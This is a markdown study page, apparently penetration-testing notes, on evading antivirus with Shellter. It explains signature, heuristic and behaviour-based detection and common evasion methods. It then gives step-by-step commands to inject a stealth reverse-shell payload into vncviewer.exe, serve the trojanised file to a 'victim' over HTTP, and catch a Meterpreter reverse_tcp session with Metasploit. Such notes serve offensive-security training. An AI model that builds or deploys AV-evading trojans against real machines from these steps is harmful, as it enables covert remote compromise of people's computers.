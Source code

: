 # AV Evasion With Shellter

## Explanation

### Defense Evasion

Defense Evasion consists of technique that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obfuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware -MITRE-

### AV Detection Methods

AV Software will typically utilize signature, heuristic and behaviour based detection.

1. Signature based detection : An AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database.

We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.

2. Heuristic-based detection : Relies on rules or decisions to determine wether a binary is malicious. It also looks for specific patterns within the code or program calls.

3. Behavior based detection : Relies on identifying malware by monitoring it's behavior. (Used for newer strains of malware).

### AV Evasion Technique

#### On-disk Evasion Techniques

- Obfuscation : Obfuscation refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.

- Encoding : Encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format and decoded to its original format.

- Packaging : Generate executable with new binary structure with a smaller size and therefore provides the payload with a new signature.

- Crypters : Encrypts code or payloads and decrypts the encrypted code in memory. The decryption key/function is usually stored in a stub.

#### In-Memory Evasion Techniques

- Focuses on a manipulation of memory and does not write files to disk.

- Injects payload into a process by leveraging various Windows APIs.

- Payload is then executed in memory in a separate thread.

## Technics

### Create malicious windows binaries

```
sudo apt-get install shellter -y
sudo dpkg --add-architecture i386
```

```
sudo apt-get install wine32
cd /usr/share/windows-resources/shellter
sudo wine shellter.exe

Choose Operation Mode : A
PE Target : /usr/share/windows-binaries/vncviewer.exe
```

```
Enable Stealth Mode? Y
Use a listed payload or custom? L
```

```
Select payload by index: 1
SET LHOST : <kali-ip>
SET LPORT : 1234
```

```
Press [Enter] to continue...
```

### Transfer payload to victim host

```
cd /usr/share/windows-binaries/
sudo python3 -m http.server 80
```

### Start meterpreter listener

```
msfconsole
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST <kali-ip>
msf6 > set LPORT 1234
msf6 > run
```

### Execute malicious windows binaries

![malicious-windows-binaries](../../../Media/AV-Evasion-And-Obfuscation/malicious-windows-binaries.png)